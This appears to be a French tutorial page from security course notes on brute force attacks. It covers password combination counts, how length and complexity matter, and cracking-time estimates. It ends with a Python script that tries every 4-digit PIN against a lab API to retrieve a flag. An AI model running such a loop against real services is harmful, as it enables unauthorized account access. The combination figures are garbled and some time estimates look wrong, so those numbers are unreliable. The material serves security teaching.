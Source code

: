 # Brute Force Attacks

***

## <mark style="color:red;">**1. Formule des Combinaisons possibles**</mark> :man\_scientist:

Le nombre total de combinaisons possibles pour un mot de passe dépend de la taille de l’ensemble des caractères et de la longueur du mot de passe :

```mathml
Possible Combinations = Character Set Size^Password Length
```

* **Exemple** :
  * 6 caractères (minuscule uniquement) → 266=308,915,77626^6 = 308,915,776266=308,915,776
  * 8 caractères (minuscule uniquement) → 268=208,827,064,57626^8 = 208,827,064,576268=208,827,064,576
  * 8 caractères (majuscules + minuscules) → 528=53,459,728,531,45652^8 = 53,459,728,531,456528=53,459,728,531,456
  * 12 caractères (majuscules, minuscules, chiffres, symboles) → 9412=475,920,493,781,698,549,50494^{12} = 475,920,493,781,698,549,5049412=475,920,493,781,698,549,504

***

## <mark style="color:red;">**2. Impact de la Longueur et de la Complexité**</mark> :closed\_lock\_with\_key:

* **Augmenter la longueur** : Chaque caractère supplémentaire **augmente exponentiellement** le nombre de combinaisons.
* **Ajouter de la complexité** : Inclure majuscules, chiffres, et symboles élargit l’ensemble des caractères et complique le travail des attaquants.

***

## <mark style="color:red;">**3. Puissance de Calcul et Temps de Brute Force**</mark> :calling:

Le temps nécessaire pour forcer un mot de passe dépend :

1. **De la taille de l’espace de recherche (combinaisons possibles)**.
2. **De la puissance de calcul disponible (guesses/seconde)**.

| **Puissance**                 | **Exemple**                       | **Temps nécessaire** |
| ----------------------------- | --------------------------------- | -------------------- |
| **Ordinateur de base** (1M/s) | 8 caractères (lettres + chiffres) | \~6,92 ans           |
| **Superordinateur** (1T/s)    | 8 caractères (lettres + chiffres) | \~6 secondes         |
| **Superordinateur** (1T/s)    | 12 caractères (ASCII complet)     | \~15 000 ans         |

***

## <mark style="color:red;">**4. Cas Pratique : Attaque Brute Force sur un PIN**</mark>

**Exemple d’application :**\
Un système génère un PIN à 4 chiffres aléatoire, accessible via une API `/pin`.

```python
import requests

ip = "127.0.0.1"  # Modifier avec l'adresse IP cible
port = 1234       # Modifier avec le port cible

# Itération sur tous les PINs possibles (0000 à 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Format : 4 chiffres (ex : 7 → "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Requête à l'API
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Vérifier si la réponse contient le succès et le flag
    if response.ok and 'flag' in response.json():  # .ok : statut HTTP 200
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break

```
